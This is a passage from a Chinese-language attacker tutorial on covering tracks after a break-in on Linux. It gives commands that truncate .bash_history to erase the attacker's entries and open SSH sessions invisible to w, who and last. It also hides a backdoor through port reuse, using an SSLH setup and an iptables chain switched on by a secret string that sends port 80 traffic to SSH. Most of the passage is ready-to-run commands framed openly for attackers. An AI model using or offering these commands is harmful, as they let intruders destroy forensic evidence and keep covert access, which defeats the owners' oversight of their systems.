 这种技巧是关键记录删除，或者我们可以暴力点，比如前150行是用户的正常操作记录，150以后是攻击者操作记录。我们可以只保留正常的操作，删除攻击痕迹的历史操作记录，这里，我们只保留前150行：

~~~
sed -i '150,$d' .bash_history
~~~

### 0x05 隐藏远程SSH登陆记录

#隐身登录系统，不会被w、who、last等指令检测到。

~~~
ssh -T root@127.0.0.1 /bin/bash -i
~~~

不记录ssh公钥在本地.ssh目录中

```
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i
```



### 0x06 端口复用

通过端口复用来达到隐藏端口的目的，在Linux下，如何实现端口复用呢？

第一种方式：通过SSLH在同一端口上共享SSH与HTTPS

~~~
 #安装SSLH
 sudo apt-get install sslh
 #配置SSLH
 编辑 SSLH 配置文件：
 sudo vi /etc/default/sslh
 1、找到下列行：Run=no  将其修改为：Run=yes
 2、修改以下行以允许 SSLH 在所有可用接口上侦听端口 443
 DAEMON_OPTS="--user sslh --listen 0.0.0.0:443 --ssh 127.0.0.1:22 --ssl 127.0.0.1:443 --pidfile /var/run/sslh/sslh.pid"
~~~

第二种方式：利用IPTables进行端口复用

~~~
# 端口复用链
iptables -t nat -N LETMEIN
# 端口复用规则
iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22
# 开启开关
iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT
# 关闭开关
iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT
# let's do it
iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN
~~~
